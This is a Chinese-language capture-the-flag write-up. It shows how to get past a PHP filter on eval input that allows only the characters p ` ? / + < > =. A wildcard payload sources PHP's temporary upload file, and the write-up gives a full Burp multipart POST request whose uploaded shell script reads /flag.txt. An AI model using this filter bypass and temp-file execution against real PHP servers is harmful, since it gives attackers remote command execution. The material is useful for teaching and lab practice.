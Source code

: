 此段代码要求cmd不能含有除了p以外的大小写字母和数字，且不能含有特殊字符：$~!@#%^&等等。可以使用的有：p ` ? / + < > =

通过可用的字符构造

```
cmd=?><?=`.+/??p/p?p??????`
```

由eval（$cmd）来运行临时文件，需要先?>把前面的<?php给闭合掉

<?= $cmd ?> 等于 <?php echo($cmd) ?>：在php中，<? ?>称为短标签，<?php ?>称为长标签。修改PHP.ini文件配置 short_open_tag = On 才可使用短标签。php5.4.0以后， <?= 总是可代替 <? echo。

反引号``（键盘Tab键上面那个键）：在php中反引号的作用是命令替换，将其中的字符串当成shell命令执行，返回命令的执行结果。反引号包括的字符串必须是能执行的shell命令，否则会出错。

点 .： 点命令等于source命令，用来执行文件。

加号 +：URL编码中空格为%20，+表示为%2B。然而url中+也可以表示空格，要表示+号必须得用%2B。

/??p/p?p??????
临时文件夹目录：php上传文件后会将文件存储在临时文件夹，然后用move_uploaded_file() 函数将上传的文件移动到新位置。临时文件夹可通过php.ini的upload_tmp_dir 指定，默认是/tmp目录。

临时文件命名规则：默认为 php+4或者6位随机数字和大小写字母，在windows下有tmp后缀，linux没有。比如windows下：phpXXXXXX.tmp  linux下：phpXXXXXX。

通配符：问号?代表一个任意字符，通配符/??p/p?p??????匹配/tmp/phpxxxxxx

 用burpsuite发送POST请求，上传文件。（注意：Content-Length下必须空一行）

请求改这3个地方

```
POST /?cmd=?><?=`.+/??p/p?p??????`; HTTP/1.1
 
Content-Type: multipart/form-data; boundary=---------------------------10242300956292313528205888
 
-----------------------------10242300956292313528205888
Content-Disposition: form-data; name="fileUpload"; filename="1.txt"
Content-Type: text/plain
 
#! /bin/sh
 
cat /flag.txt
-----------------------------10242300956292313528205888--
```

Content-Type有两个值：①application/x-www-form-urlencoded(默认值) ：上传键值对

②multipart/form-data：上传文件

boundary为边界分隔符

    文件开始标记：-----------------------------10242300956292313528205888
    文件结束标记：-----------------------------10242300956292313528205888--
    其中10242300956292313528205888是浏览器随机生成的，只要足够复杂就可以。

文件内容：#! /bin/sh 指定命令解释器，#!是一个特殊的表示符，其后，跟着解释此脚本的shell路径。bash只是shell的一种，还有很多其它shell，如：sh,csh,ksh,tcsh。首先用命令ls /  来查看服务器根目录有哪些文件，发现有flag.txt，然后再用cat /flag.txt 即可。
